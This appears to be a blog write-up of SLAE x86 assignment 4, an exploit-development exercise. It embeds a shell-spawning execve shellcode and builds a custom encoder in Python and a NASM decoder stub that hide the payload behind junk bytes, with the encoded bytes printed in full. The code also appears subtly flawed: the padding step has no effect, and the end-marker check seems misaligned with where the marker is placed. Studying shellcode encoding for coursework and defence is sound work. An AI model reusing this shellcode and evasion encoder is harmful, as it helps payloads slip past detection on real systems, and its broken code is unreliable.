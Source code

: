 ```yaml
---
title:  "SLAE x86 Assignment 4: Custom Encoding Scheme"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
categories:
  - exploit dev
classes: wide
tags:
  - exploit dev
  - slae
---
```


Hey guys! Welcome back! In this post, we will look at assignment 4 of the SLAE x86 certification. Let's dive right in!

## Understanding The Objective ##
This assignment requires us to write a custom encoding scheme, accompanied with a decoding stub in order for the shellcode to be executed. So this is my take on this assignment:

- First, a python script will be used to encode the shellcode. Each byte of the shellcode will be appended by 0xAA, followed by a random number.
- The decoder will be written in assembly. This decoder stub will contain our encoded shellcode. Once the shellcode has been decoded, execution will be passed to it.

So let's start with the encoder script! We will first need to extract the ```execve-stack``` shellcode:
```
$ objdump -d ./execve-stack|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

```python
#SLAE x86 Assignment 4: Custom Encoder Script
#Author: 4p0cryph0n
#Website: https://4p0cryph0n.github.io

#!/usr/bin/python

import sys
import random

execve = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

#If length is an odd no. add a nop at the end to make even

if len(bytearray(execve)) % 2 != 0:
	bytearray(execve).append(0x90)

encoded2 = ""

#add 0xaa followed by a random byte after each byte of the shellcode

for x in bytearray(execve):

	encoded2 += '0x'
	encoded2 += '%02x,' % x
	encoded2 += '0x%02x,' % 0xAA + '0x%02x,' % random.randint(1,255)

print encoded2
```
This script will first check whether the length of the shellcode is odd or even, depending upon which it will add a ```NOP``` at the end. This is to help with encoding groups of bytes. Then, the encoding process starts, and is outputted in a format which is supported by nasm. I will manually be adding a byte at the end of this output, which will serve as a marker. This will tell our decoder stub when to stop with the decoding process. This byte will be ```\xde```.

```
$ python encoder.py
0x31,0xaa,0xc4,0xc0,0xaa,0xa3,0x50,0xaa,0x6d,0x68,0xaa,0x6c,0x2f,0xaa,0x66,0x2f,0xaa,0xc7,0x73,0xaa,0x74,0x68,0xaa,0xc7,0x68,0xaa,0x88,0x2f,0xaa,0xd1,0x62,0xaa,0x58,0x69,0xaa,0x5e,0x6e,0xaa,0x12,0x89,0xaa,0x65,0xe3,0xaa,0xaf,0x50,0xaa,0xf5,0x89,0xaa,0x9e,0xe2,0xaa,0x25,0x53,0xaa,0x79,0x89,0xaa,0x69,0xe1,0xaa,0x26,0xb0,0xaa,0xd6,0x0b,0xaa,0x60,0xcd,0xaa,0x54,0x80,0xaa,0xc2,

add \xde at the end
```
Okay so now we have our output. Let's write the decoder stub. The idea is to essentially skip the two bytes added, and eliminate them to arrive at our decoded shellcode:
```nasm
global _start

section .text

_start:

	jmp short call_shellcode

decoder:
	pop esi
	lea edi, [esi +1]
	xor eax, eax
	mov al, 1
	xor ebx, ebx

decode:
	mov bl, byte [esi + eax]
	xor bl, 0xde
	jz short EncodedShellcode
	mov bl, byte [esi + eax + 2]
	mov byte [edi], bl
	inc edi
	add al, 3
	jmp short decode


call_shellcode:

	call decoder
	EncodedShellcode: db 0x31,0xaa,0xc4,0xc0,0xaa,0xa3,0x50,0xaa,0x6d,0x68,0xaa,0x6c,0x2f,0xaa,0x66,0x2f,0xaa,0xc7,0x73,0xaa,0x74,0x68,0xaa,0xc7,0x68,0xaa,0x88,0x2f,0xaa,0xd1,0x62,0xaa,0x58,0x69,0xaa,0x5e,0x6e,0xaa,0x12,0x89,0xaa,0x65,0xe3,0xaa,0xaf,0x50,0xaa,0xf5,0x89,0xaa,0x9e,0xe2,0xaa,0x25,0x53,0xaa,0x79,0x89,0xaa,0x69,0xe1,0xaa,0x26,0xb0,0xaa,0xd6,0x0b,0xaa,0x60,0xcd,0xaa,0x54,0x80,0xaa,0xc2, 0xde
```
The address of our encoded shellcode is first popped into ```esi``` using the ```JMP-CALL-POP``` technique. ```edi is loaded with the address of the second byte. A counter is initialized with ```eax```, which will be used to keep track of the closest byte next.

The second byte is then stored in ```ebx```, and the instruction after that runs a check for whether we have reached the end. In that case, we jump and pass execution. Otherwise, we move the value of the next important byte in ```ebx```, which is at ```[esi + eax + 2]```. This is because we have two junk bytes. We move the important byte in place of the second byte, and we increment the counter that keeps track of the important bytes.

We add 3 to the counter that keeps track of the closest byte next, and we continue this process until the end is reached.
